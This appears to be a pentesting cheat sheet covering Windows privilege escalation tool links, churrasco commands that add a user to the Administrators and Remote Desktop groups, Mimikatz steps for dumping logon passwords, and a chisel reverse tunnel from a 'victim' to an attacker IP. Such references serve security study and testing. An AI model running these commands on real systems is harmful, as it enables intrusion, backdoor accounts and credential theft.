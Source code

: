 Priv Esc - Windows
----------------
 - [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
 - [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
 - [PowerUp / PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
 - [Powerless - Enumeration Tool](https://github.com/M4ximuss/Powerless)
 - [Local Privilege Escalation Workshop](https://github.com/sagishahar/lpeworkshop)
 - [Just Another Windows (Enum) Script / JAWS](https://github.com/411Hall/JAWS)
 - [Watson](https://github.com/rasta-mouse/Watson)
 - [Sherlock](https://github.com/rasta-mouse/Sherlock) (Deprecated)
 - [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
 - `churrasco -d "net user /add <username> <password>"`
 - `churrasco -d "net localgroup administrators <username> /add"`
 - `churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"`

Post Exploitation
----------------
1. Mimikatz.exe (run it)
2. privilege::debug
3. sekurlsa::logonpasswords

Port Forwarding
----------------

```
• Local -- Forward local port to remote host.
• Remote -- Forward remote port to local host.
• Dynamic -- Use SOCKS.

Use local if you have a service running on a machine that can be reached from the remote machine, and you want to access it directly from the local machine. After setting up the tunneling you will be able to access the service using your local host IP (127.0.0.1)

Use remote if you have a service that can be reached from the local machine, and you need to make it available to the remote machine. It opens the listening socket on the machine you have used SSH to log into. 

Dynamic is like local, but on the client side it behaves like a SOCKS proxy. Use it if you need to connect with a software that expects SOCKS forwarding.
```

Chisel
local system:
```
./chisel server -p 8080 --reverse
```

victim:
```
./chisel client YOUR_IP:8080 R:1234:127.0.0.1:1234
```

Plink
- WIP
